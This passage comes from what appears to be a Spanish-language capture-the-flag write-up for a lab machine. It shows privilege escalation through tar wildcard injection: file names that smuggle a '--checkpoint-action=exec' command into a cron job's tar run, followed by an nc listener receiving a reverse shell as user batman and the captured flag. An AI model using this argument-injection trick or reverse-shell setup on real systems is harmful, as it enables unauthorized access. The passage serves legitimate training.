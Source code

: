 Creamos los archivos en el directorio _/var/www/html_:

```
echo "" > "--checkpoint-action=exec=python3 privesc.py"
echo "" > --checkpoint=1
```

Ahora solo habrá que esperar a que el cron se ejecute, y en cuanto lo haga (+- 1'), obtendremos una shell en bash en nuestro equipo en escucha _(nc -nlvp <puerto>)_.

```sh
┌──(kali㉿kali)-[~]
└─$ sudo rlwrap nc -nlvp 22
listening on [any] 22 ...
connect to [192.168.51.129] from (UNKNOWN) [192.168.51.131] 40158
bash: cannot set terminal process group (63085): Inappropriate ioctl for device
bash: no job control in this shell
batman@waynemanor:/var/www/html$
```

Una vez somos el usuario batman, podremos ver la flag alojada en el directorio _/home/batman/local.txt_.

```
bash-5.0$ cat /home/batman/local.txt

I left the party... I saw the call... I had to go... Gotham City needs me...


 :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::::::::-'    `-::::::::::::::::::
 ::::::::::::::::::::::::::::::::::::::::::-'          `::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::-  '   /(_M_)\  `:::::::::::::::
 :::::::::::::::::::::::::::::::::::-'        |       |  :::::::::::::::
 ::::::::::::::::::::::::::::::::-         .   \/~V~\/  ,:::::::::::::::
 ::::::::::::::::::::::::::::-'             .          ,::::::::::::::::
 :::::::::::::::::::::::::-'                 `-.    .-::::::::::::::::::
 :::::::::::::::::::::-'                  _,,-::::::::::::::::::::::::::
 ::::::::::::::::::-'                _,--:::::::::::::::::::::::::::::::
 ::::::::::::::-'               _.--::::::::::::::::::::::#####:::::::::
 :::::::::::-'             _.--:::::::::::::::::::::::::::#####:::::####
 ::::::::'    ##     ###.-::::::###:::::::::::::::::::::::#####:::::####
 ::::-'       ###_.::######:::::###::::::::::::::#####:##########:::####
 :'         .:###::########:::::###::::::::::::::#####:##########:::####
      ...--:::###::########:::::###:::::######:::#####:##########:::####
  _.--:::##:::###:#########:::::###:::::######:::#####:#################
 '#########:::###:#########::#########::######:::#####:#################
 :#########:::#############::#########::######:::#######################
 ##########:::########################::################################
 ##########:::##########################################################
 ##########:::##########################################################
 #######################################################################
 #######################################################################
 #################################################################### ##
 #######################################################################

                   e*******************************
```


[exploitdb]: https://www.exploit-db.com/exploits/49573